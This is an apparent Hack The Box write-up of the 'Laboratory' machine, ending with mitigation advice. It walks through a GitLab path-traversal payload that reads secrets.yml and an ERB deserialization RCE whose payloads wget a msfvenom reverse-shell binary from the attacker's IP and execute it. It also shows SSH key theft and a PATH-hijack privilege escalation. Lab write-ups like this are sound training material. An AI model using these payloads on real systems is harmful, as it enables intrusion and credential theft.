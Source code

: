 # Laboratory



## Contents

- [**About Box**](#About%20Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**Own User**](#Own%20User)
  - [**Own Root**](#Own%20Root)

- [**Mitigation**](#Mitigation)



## About the box

[![](img/box_info.png)]()



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)





## Enumeration

First, i start nmap scanning:

```bash
nmap -sC -sV -oN nmap_res 10.10.10.216
```



###### Active services:

- **SSH**

- **HTTP**
- **HTTPS**



![nmap_scan](img/nmap_scan.png)





First i try **HTTPS** protocol and i get this:

![](img/url_error_message.png)



So, i have to edit my `/etc/hosts` file to add the corresponding **DNS Server names** to the target ip:

`10.10.10.216	laboratory.htb git.laboratory.htb`

Now, i can access to the web page. After a few minutes on the main page, i get nothing so i decide to go in the `git.laboratory.htb`. I try to create an account to access to the git main page. I have to use the domain name of the website for the mail:![](img/git_register.png)



I explored the git page and i found a project with the user Dexter:![](img/git_dexter.png)



Here, i think i need to be able to connect to his account to manage the website. So, first, i try to find the deployed git version and i found it in the help page:

![](img/git_version.png)

Now, i just need to search an exploit which is available on this version. Finally, i found an interesting post which say that we can make a **RCE** with this version of gitlab:

![](img/git_rce_post.png)



## Exploitation

To use this exploit, i have to get the secret_key_base of the server gitlab and add it to my gitlab-rails config:

![](img/exploit_step.png)

I tried this description for the issue: `![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

When i moved the issue in my second project, i get the secrets.yml file:

![](img/secret_key_base.png)

I downloaded it and cat the file to copy the secret_key_base on my own secrets.yml :

![](img/secret_key_base_2.png)



I installed gitlab with the correct version and try this steps to trigger a **RCE**.

First, i launched gitlab rails console with the following command: `sudo gitlab-rails console `. 

In the same time, i create a SimpleHTTPServer with python: `python -m SimpleHTTPServer 8888`.

Before writing this commands, i create a file `test`and i edit the `erb` variable with ```erb = ERB.new("<%= `cd /tmp/ &&  wget http://10.10.14.121:8888/test` %>")```

I send this commands to the gitlab console and generated the corresponding cookie. Finally, i send request using curl with the cookie and i received the wget answer:

![](img/rce_test_file.png)



So, the **RCE** worked, at this point, i tried to get a reverse shell.

I generate an elf file using msfvenom to execute it remotely: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.121 LPORT=4444 -f elf >reverse_shell.elf`

In the same time, i use netcat to listen the specified port: `nc -lvp 4444`

I re-edit the `erb` variable with this command: ```erb = ERB.new("<%=`cd /tmp/ &&  wget http://10.10.14.121:8888/reverse_shell.elf && chmod +x reverse_shell.elf && ./reverse_shell.elf` %>"```

After that, i got the reverse shell: 

![](img/rce_reverse_shell_edit.png)



## Post-exploitation

### Own User

I know we are in the gitlab server which handles the website. I also know the username name of the user we got in the gitlab website: Dexter.

So, i after a few research, i learned that i can easily edit the user password using `gitlab-rails console`:

<img src="img/edit_dexter_password.png" style="zoom:100%;" />



I tried to connect to Dexter account with the password i edited and it worked. In his account, i retrieve the private key for the ssh connection:

![](img/private_key.png)



I dowloaded this file and used it for the ssh connection, and it worked again:

![](img/user_pwned.png)



### Own Root

First, i launched a linPEAS to enumerate possible privesc. After a few looks, i found an unusual **SUID** binary file:

![](img/docker-security.png)

I tried to read readable ASCII character using `strings` command in my kali and found interesting lines, especially, the lines with chmod:

![](img/docker-security_chmod.png)



So, here we can conclude that chmod command is launched without the absolute path from the `docker-security` script with the root privilege because of the **SUID** permission.

I decided to create a custom script named `chmod` and add the temperally directory to the `PATH` to execute my script instead of `/bin/chmod`. I just used `/bin/bash -i` to launch an interactive bash shell:

![](img/chmod_script.png)



Finally, i make my file executable, execute `docker-security` and i got bash with root privilege:

![](img/root_pwned.png)



## Mitigation

To avoid vulnerabilities in this box, it is recommended to:

- Upgrade gitlab to the last version
- Do not be tempted to roll your own **SUID** utilities unless you really have to
- Use absolute path of command used in script
- Use `getconf PATH` in the start of the script to avoid unknown script execution 